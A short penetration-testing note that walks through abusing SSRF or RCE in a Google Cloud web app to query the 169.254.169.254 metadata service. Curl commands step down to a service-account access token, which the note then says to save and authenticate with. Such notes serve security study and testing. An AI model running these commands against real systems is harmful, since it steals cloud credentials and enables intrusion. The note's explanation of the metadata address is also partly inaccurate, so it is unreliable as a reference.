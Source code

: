 #### 📦 - Exposed Web Application

Any internet facing application or resource can give us information about the system (metadata).

Enumerate the resource and try to identify an exploitable input field.

-Attempt to extract access tokens from the victim:
1) In a input field vulnerable to ssrf or rce, you can inject commands that in the header will retrieve information:

```
curl -H "Metadata-Flavor: Google"
http://169.254.169.254/computeMetadata/v1/
```
```
curl -H "Metadata-Flavor: Google"
http://169.254.169.254/computeMetadata/v1/instance/
```

```
curl -H "Metadata-Flavor: Google"
http://169.254.169.254/computeMetadata/v1/instance/service-accounts/
```

```
curl -H "Metadata-Flavor: Google"
http://169.254.169.254/computeMetadata/v1/instance/service-accounts/[Put the service account you discovered]
```

```
curl -H "Metadata-Flavor: Google"
http://169.254.169.254/computeMetadata/v1/instance/service-accounts/
```

```
curl -H "Metadata-Flavor: Google"
http://169.254.169.254/computeMetadata/v1/instance/service-accounts/[service account email]/token
```

==Clarification==
-The IP 169.254.169.254 is used in all cloud providers as a link local to test communication between instances.
-Here, since we can execute code on a vulnerable input field of the instance, we are making a curl call with header Google:metadata to obtain proggressively the token

2) Grab an copy the access token, save it as a txt file
3) Analyze again the roles and permissions of any new service accounts you discover.
4) If you were able to steal a token, try to authenticate with any new discovered service accounts you got.

Any new [[Google Service Accounts]] that you run into during enumeration or exploitation, check again its roles and permissions in each project. 



### Properties
---
📆 created   {{30-11-2024}} 13:55
🏷️ tags: #cloud  #google 

---